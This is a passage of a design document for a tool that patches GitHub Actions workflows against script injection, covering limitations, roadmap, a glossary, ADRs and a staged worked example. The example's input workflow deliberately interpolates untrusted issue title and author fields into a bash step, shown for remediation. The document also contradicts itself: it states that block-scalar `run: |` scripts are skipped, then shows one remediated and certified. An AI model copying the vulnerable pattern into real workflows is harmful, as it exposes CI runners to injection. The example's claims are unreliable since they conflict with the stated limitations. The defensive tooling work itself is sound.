* **Stage 1-8 Core Pipeline**: Fully implemented and certified.
* **Lossless Serializer**: Fully functional; preserves line endings, indents, and comments.
* **Verification Framework**: Complete with all five verification passes (Syntax, Semantic, Format, Security, Invariant).
* **Deterministic Classifier**: Implements taint tracking and runner/shell capability checks.
* **POSIX-safe Naming Engine**: Implements name collision resolution with hash suffixes.
* **Test Suite**: Fully functional with 199 passing tests.

### Deprecated Components
* **Legacy Pipeline Modules**: The modules `cst_auto_remediator.traverse`, `cst_auto_remediator.classify`, and `cst_auto_remediator.validate` are deprecated and will be removed in a future release. They are preserved only for backward compatibility.

### Not Implemented (Out of Scope for Version 1)
* Deep traversal of composite actions (`uses:` referencing local folders).
* Automated remediation of block scalar scripts (`run: |` or `run: >`).
* Automatic quoting conversion (e.g., converting single quotes to double quotes).
* Obfuscated sink analysis (such as dynamic commands generated at runtime via shell redirects).

---

## 14. Known Limitations

* **Multi-Document YAML Files**: Version 1 assumes a single YAML document per file. Files containing multiple documents separated by `---` are not supported.
* **Composite Action Deep Verification**: The compiler checks only workflow files. Steps defined within external composite actions are not resolved.
* **Future GHA Syntax Additions**: The semantic model represents the current GitHub Actions schema. Future syntax additions may require updates to the semantic builder.
* **Block Scalar Formatting**: Block scalars are skipped because editing multi-line shell scripts while preserving spacing is complex.
* **Nested Shell Script Transformations**: The rewriter replaces simple expressions but does not parse or update nested shell syntax (such as variables referenced within nested `awk` or `perl` scripts).

---

## 15. Future Roadmap

### Version 1.1: Backend Integration
* **REST APIs**: Package the compiler into a FastAPI backend service.
* **Verification Reports**: Expose verification outputs via structured JSON reports.
* **Docker Image**: Containerize the remediation engine for deployment.

### Version 1.2: User Interfaces
* **React Web UI**: Build an interactive web dashboard using TypeScript and Tailwind CSS.
* **Google Stitch UI**: Integrate the UI into the Google Stitch design system.

### Version 2: Compiler Research Extensions
* **Block Scalar Parser**: Parse and remediate block scalar shell scripts.
* **Composite Action Support**: Traverse and patch steps in local composite actions.
* **Automatic Quote Flipping**: Convert single-quoted strings containing expressions to double-quoted strings for variable evaluation.

### Version 3: Developer Tooling and Cloud Integration
* **GitHub App**: Implement automated Pull Request patches and safety checks.
* **VS Code Extension**: Real-time editor warnings and quick-fix actions.
* **Enterprise Cloud Deployment**: Scale backend workers to scan and patch repositories across organization accounts.

---

## 16. Research Contributions

The CST Auto-Remediator introduces seven core contributions to security research:

1. **Deterministic Remediation**: Replaces heuristics with deterministic, AST-level transformations.
2. **Lossless Format Preservation**: Demonstrates that security patches can be applied without altering formatting.
3. **8-Stage Compiler Architecture**: Adapts compiler design principles to security remediation.
4. **External Verification**: Separates compilation from verification, providing independent certification of correctness.
5. **Copy-on-Write CST**: Uses immutable Green trees to apply safe, layout-preserving modifications.
6. **Security Certification**: Introduces a framework that verifies safety properties after serialization.
7. **Semantic Preservation**: Ensures that non-security-related settings are not modified.

---

## 17. Contribution Guide

To maintain code quality, contributors must adhere to the following rules:

### Stage Decoupling Rules
* Stage boundaries must be respected. Never import downstream modules from upstream packages (e.g. `yaml_cst` must never import `gha_analysis` or `gha_transform`).
* Never run network requests, access databases, or write to the file system within a compiler stage. Stages must remain pure, in-memory transformations.
* Keep AST and Semantic nodes pure and syntax-focused. Never add analysis state fields (e.g. `classification`, `remediated`, `bailout_reason`) to `YamlNode` or `Step` classes. Map these properties in metadata providers or analysis registries instead.

### Coding Conventions
* All compiler changes must preserve idempotency.
* Write comprehensive unit tests for any new features under the `tests/` directory.
* Run the test suite before submitting changes:
```powershell
.venv\Scripts\pytest
```
* Ensure all 199 tests pass. If expected fixtures change, update them using the regeneration script:
```powershell
python scripts/regenerate_expected.py
```

---

## 18. Glossary

* **Abstract Syntax Tree (AST)**: A tree representation of code structure that omits formatting details like whitespace, comments, and delimiters.
* **Concrete Syntax Tree (CST)**: A lossless tree representation that preserves every character of the source code, including formatting.
* **Green Tree**: An immutable, parent-free syntax tree containing all formatting details, suitable for structural sharing.
* **Red Tree**: A mutable syntax tree that includes parent pointers and absolute source offsets, constructed on top of a Green Tree.
* **Copy-on-Write (CoW)**: An optimization where modified nodes are duplicated while unmodified siblings are shared.
* **Structural Sharing**: Sharing unmodified subtrees by reference between different versions of a data structure.
* **Taint Analysis**: A security analysis technique that tracks the flow of untrusted input to sensitive command sinks.
* **Semantic Model**: A model representing GHA workflow concepts (Jobs, Steps, Runs) constructed from raw syntax nodes.
* **Metadata Wrapper**: An external registry that maps properties to AST/Semantic nodes without modifying the nodes.
* **Verification Pass**: A check that evaluates the output document against syntax, semantic, or formatting invariants.
* **Idempotence**: A property where applying an operation multiple times yields the same result.
* **Determinism**: A property where an operation always produces the identical output for a given input.
* **GitHub Actions Expression**: Syntax denoted by `${{ ... }}` evaluated dynamically by the runner.
* **YAML Scalar Styles**: Formatting styles for text values, including `PLAIN`, `SINGLE_QUOTED`, `DOUBLE_QUOTED`, `FOLDED`, and `LITERAL`.

---

## 19. Comprehensive End-to-End Execution Example

This section traces a complete transformation of a workflow YAML containing two distinct vulnerabilities.

### 19.1 Input Workflow
```yaml
# Workflow to build and announce releases
name: Release Announcer
on:
  issues:
    types: [opened]

jobs:
  notify:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout
        uses: actions/checkout@v4

      - name: Alert Issue Details
        run: |
          echo "Title: ${{ github.event.issue.title }}"
          echo "Author: ${{ github.event.issue.user.login }}"
```

### 19.2 Stage 1: Ingest & Parse
* **Operation**: Ingests bytes, verifies they are within the 2 MB limit, and parses using `ruamel.yaml`.
* **Output**: `ruamel.yaml` parsed document model mapping the structure. Dominant line endings detected as `\n`.

### 19.3 Stage 2: Concrete Syntax Tree
* **Operation**: Recursively wraps the `ruamel.yaml` object into typed CST nodes.
* **Output**: A lossless `YamlDocument` representing the parsed nodes. The second step's script is captured as a `YamlScalar` at line 17 with style `LITERAL`.

### 19.4 Stage 3: Semantic Reconstruction
* **Operation**: Analyzes the CST structure and builds GHA nodes.
* **Output**: `SemanticBuildResult` containing a `Workflow` node mapping the `notify` job and its two steps. For Step 1 (`Alert Issue Details`), the balanced brace scanner extracts two `ExpressionSite` instances from the `run` command script scalar:
  * **Site 1**: `${{ github.event.issue.title }}` (start_offset=18, end_offset=48)
  * **Site 2**: `${{ github.event.issue.user.login }}` (start_offset=67, end_offset=102)

### 19.5 Stage 4: Metadata Separation
* **Operation**: Resolves context metadata and registers findings by node IDs.
* **Output**: `MetadataWrapper` caching:
  * **PositionMetadata**: Links Site 1 and Site 2 to step `1` run node.
  * **ScopeMetadata**: Maps step scope (inherits workflow global variables).
  * **ShellMetadata**: Resolves `bash` shell with standard execution capabilities.
  * **ExpressionMetadata**: Assigns stable path IDs:
    * Site 1 ID: `jobs.notify.steps.1.run.exprs.0`
    * Site 2 ID: `jobs.notify.steps.1.run.exprs.1`

### 19.6 Stage 5: Security Analysis
* **Operation**: Analyzes expression taints.
* **Output**: `SecurityAnalysisResult` containing:
  * **Site 1**: Paths starting with `github.event.issue.title` are classified as `UNTRUSTED`. Since the runner shell is `bash` and the sink is a plain run command, the decision is `AnalysisDecision.REMEDIATE` (triggers diagnostic `ANA004`).
  * **Site 2**: Paths starting with `github.event.issue.user.login` are classified as `UNTRUSTED` (triggers diagnostic `ANA004`).

### 19.7 Stage 6: Mutation Planning
* **Operation**: Resolves names and generates replacements.
* **Output**: `MutationPlan` containing a `StepMutation` for step `1` with:
  * **EnvVarEntry 1**: `GITHUB_EVENT_ISSUE_TITLE` mapped to `${{ github.event.issue.title }}`
  * **EnvVarEntry 2**: `GITHUB_EVENT_ISSUE_USER_LOGIN` mapped to `${{ github.event.issue.user.login }}`
  * **SiteReplacement 1**: Replaces Site 1 with `$GITHUB_EVENT_ISSUE_TITLE`.
  * **SiteReplacement 2**: Replaces Site 2 with `$GITHUB_EVENT_ISSUE_USER_LOGIN`.

### 19.8 Stage 7: Format-Preserving Transformation
* **Operation**: Rebuilds the CST via CoW, copies `ruamel.yaml` elements, and serializes the tree back to bytes.
* **Output**: Safe workflow output bytes. Spaces, blank lines, and original comments are preserved.

### 19.9 Stage 8: Verification & Certification
* **Operation**: Feeds `VerificationContext` to verification passes.
* **Output**:
  * **SyntaxPass**: `PASS` (valid syntax).
  * **SemanticPass**: `PASS` (settings isomorphic, run edits correspond to mutations).
  * **FormatPass**: `PASS` (comment headers, spacing, and trailing newlines match original).
  * **SecurityPass**: `PASS` (unremediated targets remaining: 0).
  * **InvariantPass**: `PASS` (idempotence, determinism, and CoW structures certified).
  * **Decision**: `VerificationDecision.PASS`.

### 19.10 Output Workflow
```yaml
# Workflow to build and announce releases
name: Release Announcer
on:
  issues:
    types: [opened]

jobs:
  notify:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout
        uses: actions/checkout@v4

      - name: Alert Issue Details
        env:
          GITHUB_EVENT_ISSUE_TITLE: ${{ github.event.issue.title }}
          GITHUB_EVENT_ISSUE_USER_LOGIN: ${{ github.event.issue.user.login }}
        run: |
          echo "Title: $GITHUB_EVENT_ISSUE_TITLE"
          echo "Author: $GITHUB_EVENT_ISSUE_USER_LOGIN"
```

---

## Appendix: Architecture Decision Records (ADRs)

### ADR 001: Concrete Syntax Tree (CST) vs. Abstract Syntax Tree (AST)
* **Context**: Rebuilding workflows requires parsing YAML and modifying command strings. An AST model omits layout details, which would cause the serializer to lose comments and formatting.
* **Decision**: We use a Concrete Syntax Tree (CST) to represent the YAML structure. This preserves 100% of formatting details across modifications.
* **Consequences**: Tree modification requires Copy-on-Write traversal to rebuild paths, but formatting remains intact.

### ADR 002: Selection of `ruamel.yaml` as the Parsing Engine
* **Context**: The parser must load YAML in a round-trip mode that preserves comment nodes, quoting styles, and map keys.
* **Decision**: We use `ruamel.yaml` in round-trip mode (`rt`). It tracks comments, quote styles, and block styles, and supports updating and dumping structured trees.
* **Consequences**: `ruamel.yaml` is slow and complex, but it is the most reliable Python library for format-preserving round-trip parsing.

### ADR 003: Immutable Dataclasses for Green CST Nodes
* **Context**: Modifying a syntax tree during compiler passes can introduce side effects if nodes are mutable.
* **Decision**: We define CST nodes as immutable dataclasses (`frozen=True`).
* **Consequences**: Modifying a node requires returning a new instance via `replace`. This prevents modification side effects and allows structural sharing.

### ADR 004: Decoupling Stage 8 Verification
* **Context**: Bugs in the compiler or serializer could produce malformed or invalid YAML output.
* **Decision**: We implement Stage 8 as a separate verification layer. It treats the output as untrusted and re-parses and validates it independently.
* **Consequences**: Simplifies testing and guarantees that generated output is valid, semantically isomorphic, and secure.

### ADR 005: Decoupling Network Operations
* **Context**: Future REST APIs and integrations will require network access (e.g. fetching workflows from GitHub APIs).
* **Decision**: We exclude network and database operations from the core compiler. These will be handled by a separate FastAPI application layer.
* **Consequences**: Keeps the compiler decoupled, testable, and safe to run in isolated environments.
